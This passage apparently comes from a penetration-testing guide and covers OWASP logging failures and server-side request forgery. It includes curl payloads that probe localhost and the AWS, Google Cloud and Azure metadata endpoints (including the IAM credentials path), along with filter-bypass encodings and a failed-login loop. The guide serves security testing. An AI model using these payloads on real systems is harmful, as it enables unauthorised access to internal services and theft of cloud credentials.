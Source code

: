 ### A09:2021 - Security Logging and Monitoring Failures

**Testing approach:**

```bash
# Test if failed login attempts are logged
# Perform 10 failed login attempts
for i in {1..10}; do
    curl -X POST http://target.com/login -d "username=admin&password=wrong$i"
done

# Check if account was locked (good)
# Check if you received notification email (good)
# No response difference = vulnerable

# Test if admin actions are logged
# Change user role, delete data, etc.
# Request audit logs via support/legal team
```

### A10:2021 - Server-Side Request Forgery (SSRF)

**Concept:** Attacker tricks server into making requests to unintended locations.

**Testing methodology:**

```bash
# Basic SSRF test
curl "http://target.com/fetch?url=http://127.0.0.1:22"
# Vulnerable response: SSH banner

curl "http://target.com/fetch?url=http://169.254.169.254/latest/meta-data/"
# Vulnerable: AWS metadata exposed

# Common SSRF parameters:
# url=, uri=, path=, dest=, redirect=, next=, data=, reference=, site=, html=

# Bypass filters:
# http://127.0.0.1 → http://127.1 → http://0x7f.0x0.0x0.0x1
# http://localhost → http://localtest.me → http://spoofed.burpcollaborator.net

# Burp Collaborator for out-of-band detection
# 1. Burp → Burp Collaborator client → Copy to clipboard
# 2. Test payload:
curl "http://target.com/fetch?url=http://abc123.burpcollaborator.net"
# 3. Check Collaborator for HTTP request
```

**Cloud metadata SSRF:**

```bash
# AWS metadata
curl "http://target.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Google Cloud metadata
curl "http://target.com/proxy?url=http://metadata.google.internal/computeMetadata/v1/"

# Azure metadata
curl "http://target.com/proxy?url=http://169.254.169.254/metadata/instance?api-version=2021-02-01" -H "Metadata:true"
```

---